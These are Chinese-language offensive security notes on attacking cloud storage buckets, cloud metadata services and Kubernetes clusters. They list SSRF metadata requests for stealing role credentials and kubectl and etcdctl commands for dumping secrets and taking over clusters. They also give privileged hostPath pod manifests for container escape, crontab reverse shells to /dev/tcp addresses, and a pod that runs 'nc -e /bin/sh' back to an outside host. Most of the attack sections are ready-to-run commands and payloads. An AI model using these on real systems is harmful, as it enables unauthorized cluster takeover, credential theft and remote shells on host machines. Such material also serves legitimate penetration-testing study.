

# 对象存储服务--存储桶Bucket

可以关注一下静态文件是不是**从其他域名引入的**，一般从其他域名引入的就是从存储桶引入的。

还有一种情况是藏在多级目录下，比如`/minio/picture/`




## Bucket 爆破

- 利用场景：访问时返回`InvalidBucketName`

- 原理

  > 存储桶地址：Bucket名称-Bucket地区-云厂商
  >
  > 当存储桶不存在时有两种返回情况，分别是 InvalidBucketName 和 NoSuchBucket
  >
  > 当存储桶存在时只会根据是否可读返回存储桶中的文件

​	

## 权限控制ACL配置不当

- 公共读（包含ListObject操作--相当于列目录）

  ```
  ossx-main爬取链接+wget批量下载
  ```

- 公共读写

  ```
  PUT上传文件
  ```

- Bucket Policy允许公共访问

  ```
  访问/?acl，获取策略并根据策略进行请求从而访问存储桶
  ```

- Bucket Policy允许修改

  ```
  使用云厂商工具修改策略中的Deny为Allow即可访问存储桶
  ```

  

## 域名解析问题

### 文件解析问题

存储桶只用作存储，访问存储桶中的文件，文件是不解析直接下载的

但如果配置了CNAME记录

```
my.com  →  oss.com
oss.com/index.php不解析直接下载
my.com/index.php会解析php
```

如何确定：ping my.com 解析到oss.com则证明了配置了CNAME记录


### Bucket 接管

- 利用场景：访问时返回`NoSuchBucket`


类似于子域名接管，只是cname指向的是Bucket


> 因为域名（源域名）配置了CNAME，但是CNAME指向的域名并没有被注册。那么攻击者可以注册这个CNAME指向的域名，就可以控制了源域名。
>
> 因为域名配置了CNAME，但是CNAME指向的Bucket没有被注册（被删除了），那么攻击者可以注册这个CNAME指向的Bucket，从而接管该域名。
>
> 参考文章：[记一次因为 S3 bucket 删除而导致的子域名接管(subdomain takeover)的安全问题 | Zach Ke's Notes (kebingzao.com)](https://kebingzao.com/2021/06/21/s3-subdomain-takeover/)


## AK/SK泄露

接管


# 云服务器

## 角色访问控制

授权角色可以使用哪些云服务


## 元数据

元数据服务是一种提供查询运行中的实例内元数据的服务。

通过元数据，攻击者除了可以获得 云服务器 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。

- 利用场景

  获取目标 云服务器 权限或者目标云服务器 存在 SSRF 漏洞

- 相关请求

  ```shell
  curl http://ip/latest/meta-data
  
  // 获取临时凭证要加最后的/
  curl http://ip/latest/meta-data/ram/security-credentials/     // 如果配置了访问控制角色将会列出
  curl http://ip/latest/meta-data/ram/security-credentials/ecs  // 获取ecs角色的临时凭证
  
  // 其他关键信息
  /latest/meta-data/mac    实例 MAC 地址
  /latest/meta-data/hostname    实例主机名
  /latest/meta-data/ram/info    获取角色名称
  /latest/meta-data/local-ipv4    实例本地 IP
  /latest/meta-data/public-ipv4    实例公网 IP
  /latest/meta-data/instance-id    实例 ID
  /latest/meta-data/public-hostname    接口的公有 DNS (IPv4)
  /latest/meta-data/placement/region    实例的区域
  /latest/meta-data/public-keys/0/openssh-key    公有密钥
  /latest/meta-data/ram/security-credentials/<rolename>    获取角色的临时凭证
  ```

  > 阿里云为RAM访问控制，AWS为iam访问控制，不同厂商的名称不同，元数据的路径也要替换

  

# k8s--Kubernetes


## 基本介绍

Kubernetes（简称 k8s）是一个开源的容器管理平台，用于自动化部署、扩展和管理容器化的应用程序。


了解：https://golangguide.top/%E6%9E%B6%E6%9E%84/%E4%BA%91%E5%8E%9F%E7%94%9F/%E6%A0%B8%E5%BF%83%E7%9F%A5%E8%AF%86%E7%82%B9/k8s%E5%88%B0%E5%BA%95%E6%98%AF%E4%BB%80%E4%B9%88.html

### 组件介绍


**Scheduler** ：调度器，找到能满足 Pod 部署所需硬件资源的Node节点

控制平面（master节点）用于管理node节点

node节点是一台独立的物理机也可以是一个虚拟机，上面运行着pod和其他通信服务，pod实际上就是用docker搭建的服务。

集群（Cluster）= 控制平面（Master节点）+ 多个node节点，pod同时部署在多个node节点上（通过不同的node节点ip都可以访问到pod服务，一个pod服务挂了，其它节点上的仍可以正常使用，就相当于容灾）


### 部署服务


首先我们需要编写 **YAML 文件**，在里面定义 Pod 里用到了哪些镜像，占用多少内存和 CPU 等信息。
然后使用 kubectl 命令行工具执行 `kubectl apply -f xx.yaml` ，此时 kubectl 会读取和解析 YAML 文件，将解析后的对象通过 API 请求发送给 Kubernetes 控制平面内 的 **API Server**。 API Server 会根据要求，驱使 **Scheduler** 通过 **etcd** 提供的数据寻找合适的 **Node**， **Controller Manager** 会通过 API Server 控制 Node 创建服务，Node 内部的 **kubelet** 在收到命令后会开始基于 **Container runtime** 组件去拉取镜像创建容器，最终完成 **Pod** 的创建。


### 外部请求处理


以前外部用户小明，直接在浏览器上发送 http 请求，就能打到我们服务器上的 Nginx，然后转发到部署的服务内。
用了 k8s 之后，外部请求会先到达 k8s 集群的 Ingress 控制器，然后请求会被转发到 k8s 内部的某个 Node 的 **Kube Proxy** 上，再找到对应的 pod，然后才是转发到内部**容器服务**中，处理结果原路返回，到这就完成了一次服务调用。


## 指纹识别

Node节点

| **组件名称** | **默认端口** |
| :----------: | :----------: |
|   kubelet    | 10250/10255  |
|  dashboard   |     8001     |
|  kube-proxy  |     8001     |
|    docker    |     2375     |

Master节点

|      **组件名称**       | **默认端口** |
| :---------------------: | :----------: |
|       api server        |  6443、8080  |
|        dashboard        |     8001     |
|          etcd           |     2379     |
|     kube-scheduler      |    10251     |
| kube-controller-manager |    10252     |


## Dashboard未授权访问

### 利用场景

配置文件recommended.yaml中开启enable-skip-login，并且给Kubernetes dashboard绑定cluster-admin等角色，攻击者可直接在界面上创建特权pod进行容器逃逸


### 漏洞利用

**点击dashboard右上角的加号创建pod并挂在宿主机的根目录**

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```

这里将宿主机的目录挂在到了/mnt目录下


可以通过写crontab获取shell

```javascript
echo -e "* * * * * /bin/bash -i >& /dev/tcp/192.168.0.139/1234 0>&1" >> /mnt/etc/crontab
```

或者通过chroot来获取终端


## K8s configfile 泄露

K8s configfile作为K8s集群的管理凭证，其中包含有关K8s集群的详细信息（API Server、登录凭证）。

如果攻击者能够访问到此文件(如办公网员工机器入侵、泄露到 Github 的代码等)，就可以直接通过 API Server 接管 K8s 集群，带来风险隐患。

用户凭证保存在 kubeconfig 文件中，kubectl 通过以下顺序来找到 kubeconfig 文件：

1. 如果提供了--kubeconfig参数，就使用提供的 kubeconfig 文件。
2. 如果没有提供--kubeconfig 参数，但设置了环境变量 $KUBECONFIG，则使用该环境变量提供的 kubeconfig 文件。
3. 如果以上两种情况都没有，kubectl 就使用默认的 kubeconfig 文件 $HOME/.kube/config。


### 漏洞利用

- 通过Dashboard的配置文件方式登录

- 使用kubectl

  ```shell
  # 连接
  kubectl -s https://ip:6443 --kubeconfig=config1 -insecure-skip-tls-verify=true get nodes
  
  # 创建恶意pod
  kubectl apply -f test.yaml -n default --kubeconfig=config1 --insecure-skip-tls-verify=true
  
  #连接 pod 后进行容器挂载逃逸
  kubectl exec -it myapp  bash  -n default --kubeconfig=config1
  cd /mnt
  chroot . bash
  ```

  ```yaml
  # test.yaml
  apiVersion: v1
  kind: Pod
  metadata:
    name: myapp
  spec:
    containers:
    - image: nginx
      name: myapp
      volumeMounts:
      - mountPath: /mnt
        name: test-volume
    volumes:
    - name: test-volume
      hostPath:
        path: /
  ```

  


## Master节点攻击

### API Server 未授权访问

#### 利用场景

> 旧版本的k8s的API Server默认会开启两个端口：8080和6443。 6443是安全端口，安全端口使用TLS加密；8080端口无需认证http访问，仅用于测试。高版本的k8s已经默认不开启8080端口

- 8080端口--**k8s<1.16.0**

  ```
  新版本需要修改配置文件 /etc/kubernetes/manifests/kube-apiserver.yaml
  默认端口8080，修改标识–insecure-port
  默认IP是本地主机，修改标识—insecure-bind-address
  ```

- 6443端口

  > 鉴权配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使 6443端口允许匿名用户以管理员权限向集群内部下发指令。
  
- kubectl-proxy不安全配置

  对方运维使用命令kubectl proxy设置API server接收所有主机的请求

  ```shell
  # 相当于8009端口API Server未授权访问
  kubectl --insecure-skip-tls-verify proxy --accept-hosts=^.*$ --address=0.0.0.0 --port=8009
  ```

漏洞存在时


#### 漏洞利用

##### 通过kubectl命令攻击

```shell
# 查询nodes和pods
kubectl -s http://ip:6443/ get nodes
kubectl -s http://ip:6443/ get pods
kubectl -s ip:6443 get pod -n [node]

# 创建恶意pods
kubectl -s http://ip:6443/ create -f test.yaml
```

test.yaml

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: ["/bin/sh"]
    args: ["-c", "nc 192.168.125.130 7777 -e /bin/sh"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

获得pod的shell

```shell
kubectl -s http://ip:6443/ get namespaces
kubectl exec -it <pod-name> -n <namespace> bash
```

##### 通过http请求攻击

```php
#查看pods
https://192.168.4.110:6443/api/v1/namespaces/default/pods?limit=500

#创建特权容器
https://192.168.4.110:6443/api/v1/namespaces/default/pods/test-4444
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-4444\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-4444\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}

#执行命令
https://192.168.4.110:6443/api/v1/namespace/default/pods/test-4444/exec?command=whoami


# 获取token
/api/v1/namespaces/kube-system/secrets/
```


### etcd未授权访问

#### 利用场景

> 配置文件：  /etc/kubernetes/manifests/etcd.yaml
>
> etcd服务有V2和V3两个版本
>
> k8s默认配置下etcd服务只会监听本地的2379端口

- 没有配置--client-cert-auth 参数（无证书校验），外部可以直接未授权访问获取secrets和token来接管API Server
- 配置--client-cert-auth 参数（有证书校验），本地127.0.0.1:2379可免认证访问Etcd服务，但通过其他地址访问要携带cert进行认证访问，一般配合ssrf或其他利用，较为鸡肋。


#### 漏洞利用 

访问

```php
http://ip:2379/v2/keys/?recursive=true
```

V2版本返回所有的key-value值


V3版本返回如下


需要使用工具：https://etcd.io/docs/v3.4/install/

```shell
# 获取k8s的secrets
./etcdctl --endpoints=https://ip:2379 get / --prefix --keys-only | grep sceret

# 获取用户指定token
./etcdctl --endpoints=https://ip:2379 get /registry/secrets/xxxx/xxx
./etcdctl --endpoints=https://ip:2379 get /registry/secrets/kube-system/xxx

# 通过token接管
kubectl --insecure-skip-tls-verify-s https://ip:6443 --token="ey..." -n kube-system get pods
```


## 污点横向移动

### 基本原理

通过外网获得了一个pod权限，此时我们的目标就是获得Master节点的宿主机权限，那我们应该怎么做呢？

可以想到获得Master节点的pod权限，再通过逃逸或者挂载获得Master节点的宿主机权限，那么就是需要部署一个恶意pod到Master节点上。

如何获得部署一个恶意pod的权限呢？

- Api Server/etcd未授权访问

- 不同Node节点上的pod服务中的ServiceAccount 权限

  ```shell
  # 确认当前默认 service-account权限
  ./kubectl auth can-i --list
  ```

  

- 信息收集得到config配置文件

假设已经获得部署一个恶意pod的权限，还有一个问题就是默认pod是不会被部署到Master节点上的，这是因为Master节点具有污点属性，只有具备对应容忍度的pod才可以被部署到Master节点，解决方法就是**清除Master节点的污点或者部署pod时加上对应容忍度属性**


### 横向移动

> 以下为在pod服务的webshell上进行Api Server未授权访问操作

#### 部署pod时加上对应容忍度属性

```shell
# --username=a --password=a 因为webshell不是交互式终端，不加的话会让你输入用户名这样是行不通的
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a

# 获取pod的污点信息
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a describe nodes  | grep Taints 
# 部署pod到Master节点，可能需要修改容器名字多尝试几次,调度问题？
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a create -f ./x.yaml
# 获取pod信息以及pod部署到哪个节点 get pods -o wide
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a get pods -o wide  
# 反弹shell获取Master节点的宿主机权限
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a exec control-master-x231 -- bash -c "echo -e '* * * * * root bash -i >& /dev/tcp/192.168.86.218/6677 0>&1\\n' >> /master/etc/crontab"
```

x.yaml

```yaml
cat > x.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: control-master-x
spec:
  tolerations:
  - key: "node-role.kubernetes.io/master"  # 污点名字
    operator: "Exists"
    effect: "NoSchedule"
  containers:
  - name: control-master-x   # 容器名字
    image: ubuntu:18.04
    command: ["/bin/sleep", "3650d"]
    volumeMounts:
    - name: master
      mountPath: /master # 
  volumes:
  - name: master
    hostPath:
      path: /
      type: Directory
EOF
```

`nodeName` 是 Pod 的一个字段，用于直接指定 Pod 要运行的节点。

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: my-pod
spec:
  containers:
  - name: my-container
    image: nginx
  nodeName: node-name  # 替换为目标节点的名称
```


#### 清除Master节点的污点？

执行以下命令清除污点之后直接执行部署Pod到Master上，之后通过挂载实现逃逸获取Master节点的权限

```shell
#清除污点
kubectl taint nodes debian node-role.kubernetes.io/master:NoSchedule-

#查看污点
kubectl describe node master | grep 'Taints' -A 5
```


# 工具

https://github.com/yeahx/KubeAPI-Inspector/blob/main/README_zh.md

https://github.com/cdk-team/CDK


# 参考文章

https://www.bilibili.com/video/BV12om2YTEgW/?spm_id_from=333.788.player.switch&vd_source=09b7dbe7a7fc964ca09096bdd79f031d&p=102 | 第98天：云上攻防-云原生篇&K8s安全&Config泄漏&Etcd存储&Dashboard鉴权&Proxy暴露_哔哩哔哩_bilibili
https://mp.weixin.qq.com/s/yQoqozJgP8F-ad24xgzIPw | mp.weixin.qq.com/s/yQoqozJgP8F-ad24xgzIPw
https://mp.weixin.qq.com/s/QEuQa0KVwykrMzOPdgEHMQ | mp.weixin.qq.com/s/QEuQa0KVwykrMzOPdgEHMQ
https://forum.butian.net/share/1095 | 奇安信攻防社区-云原生之Kubernetes安全
https://wiki.teamssix.com/CloudNative/Kubernetes/k8s-horizontal-taints.html | 
https://kubernetes.io/zh-cn/docs/concepts/scheduling-eviction/assign-pod-node/ | 将 Pod 指派给节点 | Kubernetes
https://golangguide.top/%E6%9E%B6%E6%9E%84/%E4%BA%91%E5%8E%9F%E7%94%9F/%E6%A0%B8%E5%BF%83%E7%9F%A5%E8%AF%86%E7%82%B9/k8s%E5%88%B0%E5%BA%95%E6%98%AF%E4%BB%80%E4%B9%88.html#%E6%80%8E%E4%B9%88%E8%B0%83%E7%94%A8%E6%9C%8D%E5%8A%A1 | golangguide.top/架构/云原生/核心知识点/k8s到底是什么.html#怎么调用服务
https://stack.chaitin.com/techblog/detail/218 | CT Stack 安全社区
https://github.com/sule01u/AutorizePro?tab=readme-ov-file | github.com/sule01u/AutorizePro?tab=readme-ov-file

